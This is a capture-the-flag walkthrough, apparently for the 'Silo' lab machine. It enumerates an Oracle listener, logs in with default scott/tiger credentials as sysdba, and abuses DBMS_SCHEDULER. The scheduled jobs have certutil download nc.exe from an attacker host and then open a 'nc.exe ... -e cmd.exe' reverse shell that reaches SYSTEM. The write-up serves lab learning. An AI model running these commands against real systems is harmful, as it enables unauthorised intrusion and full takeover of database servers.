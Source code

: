 # Silo

### Reconnaissance

[Nmap scan](./silo.nmap)

**RPC**

Access denied when trying to connect with a null session

**SMB**

No anonymous or guest access, system information from NetExec:

NetExec smb enum: `Windows Server 2012 R2 Standard 9600 x64 (name:SILO) (domain:SILO) (signing:False) (SMBv1:True)`

**Oracle TNS Listener**

A quick google for Oracle TNS listener shows this hacktricks post: https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener

They suggest using odat: https://github.com/quentinhardy/odat

Enumerating the service with odat gives us two SIDs, `XE` and `XEDB`, and some default credentials `scott/tiger`

```bash
./odat all -s 10.10.10.82
./odat all -s 10.10.10.82 -d XE -U scott -P tiger
```

Further enumeration with the credentials doesn't give us any more information

This [secybr post](https://secybr.com/posts/oracle-pentesting-best-practices/) mentioned in hacktricks gives us lots more enumeration options and several methods for RCE 
with user credentials

First, we need to install sqlplus and set some environment variables:

```bash
# install sqlplus
sudo apt install oracle-instantclient-sqlplus

# find the directory from the sqlplus symlink for ORACLE_HOME env var
file $(which sqlplus)
/usr/bin/sqlplus: symbolic link to ../lib/oracle/19.6/client64/bin/sqlplus

# path or version may be different
export ORACLE_HOME=/usr/lib/oracle/19.6/client64
export LD_LIBRARY_PATH="$ORACLE_HOME/lib"
```

We can connect to both SIDs with the default credentials with system database privileges

Connect to XE or XEXDB with system database privileges

```bash
sqlplus <user>/<password>@10.10.10.82/<SID> 'as sysdba';
```

**Exploitation**

The target doesn't have Java installed so the first method won't work, but we can use the DBMS_SCHEDULER to 
create jobs and schedule them to get RCE on the target. We will not get back any output from the command
execution so sanity checking is a good idea!

First host the nc.exe binary using python:

```bash
python -m http.server 80
```

Then create a job to download the nc.exe binary with certutils in sqlplus:

```
SQL> exec DBMS_SCHEDULER.create_program('RDS2002','EXECUTABLE','c:\Windows\system32\certutil.exe -urlcache -f http://10.10.10.2/nc.exe c:\nc.exe',0,TRUE);
```

Now schedule the job to run immediately:

```
SQL> exec DBMS_SCHEDULER.create_job(job_name => 'RDS2003JOB',program_name => 'RDS2003',start_date => NULL,repeat_interval => NULL,end_date => NULL,enabled => TRUE,auto_drop => TRUE);
```

![upload](./img/upload.png)

Start a netcat listener on the attacking machine:

```bash
nc -lnvp 443
```

Create a job to run the nc.exe binary to connect to our attacker machine:

```
SQL> exec DBMS_SCHEDULER.create_program('RDS2003','EXECUTABLE','c:\nc.exe 10.10.10.2 443 -e cmd.exe',0,TRUE);
```

Finally, schedule the job to run immediately and get a reverse shell on the target:

```
SQL> exec DBMS_SCHEDULER.create_job(job_name => 'RDS2003JOB',program_name => 'RDS2003',start_date => NULL,repeat_interval => NULL,end_date => NULL,enabled => TRUE,auto_drop => TRUE);
```

![shell](./img/shell.png)

### Privilege Escalation

Running `whoami` gives us an error as if it wasn't installed on the machine. If we navigate to system32 we 
can run it and discover we have SYSTEM privileges

![system](./img/system.png)

### Lessons Learned

- Always try to connect to Oracle TNS listeners with 'as sysdba'
- When scheduling tasks with DBMS_SCHEDULER use binaries we know will be installed on the target in 
predictable locations
- Sanity checking when using scheduled tasks is important as we don't get any output from the executed commands
- If basic system tools aren't working navigate to their expected path and try again
